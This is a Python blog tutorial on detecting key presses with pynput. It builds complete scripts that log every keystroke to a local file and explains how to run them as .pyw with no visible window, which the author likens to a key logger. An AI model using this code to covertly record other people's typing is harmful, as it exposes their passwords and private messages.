 ```yaml
---
templateKey: blog-post
title: "How to Detect Key Presses In Python"
date: 2020-04-07T12:00:00.000Z
category: Tutorials
tags: [python, keyboard, logging, pynput]
image: demo2.png
description: "This demonstration shows you how to detect key presses using the pynput module. These can then be logged to a file as no console is displayed. This is very similar to a key logger."
hidden: false
---
```


[TOC]

## PIP
If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip]({{ url_for('blog_post', path='how-to-setup-pythons-pip') }}) to setup pip.

## Installing Pynput
We will be using the pynput module to listen to keyboard events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](../how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](../how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Script
Create a new python file and save it with a .py file extension. You will first want to import Listener from pynput.keyboard.

```python
from pynput.keyboard import Listener
```

Setup the listener by creating an instance in a `with` statement and using it's `.join()` method to join it to the main thread.

```python
with Listener() as listener:
    listener.join()
```

Create three methods; on_press and on_release with the parameters as shown below.

```python
def on_press(key):
    pass

def on_release(key):
    pass
```

Link these methods to the listener instance with the function names as the args; I have named the methods as they are defined in the listener class. Now when an action occurs, one of these methods will be run.

```python
with Listener(on_press=on_press, on_release=on_release) as listener:
```

To make sure these are running, add some print statements to each method. Save and run the script. Press a few keys, you should see output like below.

```python
def on_press(key):
    print("Key pressed")

def on_release(key):
    print("Key released")
```

![Keys pressed demonstration](demo1.png)

Using these print statements and the parameters provided, we can give more information when printing. Run this again to make sure it is working properly (example output below).

```python
def on_press(key):
    print("Key pressed: {0}".format(key))

def on_release(key):
    print("Key released: {0}".format(key))
```

![Keys pressed demonstration with data](demo2.png)

If you want this script to be run in the background. Click File -> Save As and save it with a .pyw file extension. Now when it is run outside IDLE there will be no console window and it will not look like it is running. But to make sure the console doesn't appear, we need to first remove the print statements.

Import logging and set up the basic configuration as I have below. After that, change all print statements to logging.info.

```python
import logging
```

```python
logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

```python
def on_press(key):
    logging.info("Key pressed: {0}".format(key))

def on_release(key):
    logging.info("Key released: {0}".format(key))
```

Now when the script is run, nothing should be printed to the console. This is because it is all being saved to the file declared in the basic configuration.

Save and close IDLE. Open the file named key_log.txt next to your python script; all the events should be logged in here. For example, here is one of my logs typing `Wow!`:

```text
2020-04-07 22:52:58,233: Key pressed: Key.shift
2020-04-07 22:52:58,514: Key pressed: 'W'
2020-04-07 22:52:58,649: Key released: Key.shift
2020-04-07 22:52:58,649: Key released: 'w'
2020-04-07 22:52:58,942: Key pressed: 'o'
2020-04-07 22:52:59,058: Key released: 'o'
2020-04-07 22:52:59,205: Key pressed: 'w'
2020-04-07 22:52:59,318: Key released: 'w'
2020-04-07 22:52:59,430: Key pressed: Key.shift
2020-04-07 22:52:59,590: Key pressed: '!'
2020-04-07 22:52:59,710: Key released: '!'
2020-04-07 22:52:59,853: Key released: Key.shift
```

> The actual location of this file will be in the current working directory of where you run the script from

## The Listener Thread
Just as a quick note, the Listener class is a thread which means as soon as it has joined to the main thread no code will be executed after the `.join()` until the Listener is stopped.

As stated [here in the pynput docs on readthedocs.io](https://pynput.readthedocs.io/en/latest/keyboard.html#monitoring-the-keyboard), we can call `pynput.keyboard.Listener.stop` anywhere in the script to stop the thread or return False from a callback to stop the listener. As shown in my video, we can also just call `listener.stop()` in one of the definitions due to the fact that that the listener is now in scope and is an instance os Listener.

## Final Script

```python
from pynput.keyboard import Listener
import logging

# Setup logging
logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):  # The function that's called when a key is pressed
    logging.info("Key pressed: {0}".format(key))

def on_release(key):  # The function that's called when a key is released
    logging.info("Key released: {0}".format(key))

with Listener(on_press=on_press, on_release=on_release) as listener:  # Create an instance of Listener
    listener.join()  # Join the listener thread to the main thread to keep waiting for keys
```

## Making Things a Bit More Readable
Everything being on a new line with both key presses and releases can be very helpful for identifying sequences but can be a bit hard to read. Here is a modified script that can put everything on one line and enters when enter is pressed.

```python
from pynput.keyboard import Listener, Key

filename = "key_log.txt"  # The file to write characters to


def on_press(key):
    f = open(filename, 'a')  # Open the file

    if hasattr(key, 'char'):  # Write the character pressed if available
        f.write(key.char)
    elif key == Key.space:  # If space was pressed, write a space
        f.write(' ')
    elif key == Key.enter:  # If enter was pressed, write a new line
        f.write('\n')
    elif key == Key.tab:  # If tab was pressed, write a tab
        f.write('\t')
    else:  # If anything else was pressed, write [<key_name>]
        f.write('[' + key.name + ']')

    f.close()  # Close the file


with Listener(on_press=on_press) as listener:  # Setup the listener
    listener.join()  # Join the thread to the main thread
```

Here is a sample of some of the output:

```text
[shift]I am typing this in notepad
[shift]Here is a new line
[shift]Opps, [shift]I spelt that wro[backspace][backspace]ro[backspace][backspace]ord incorrectly
[shift]Here as [backspace][backspace]re some special keys[shift]:[shift][ctrl_l][alt_l][alt_r][ctrl_r][shift_r]
```

## Common Issues and Questions

### ModuleNotFoundError/ImportError: No module named 'pynput'
Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

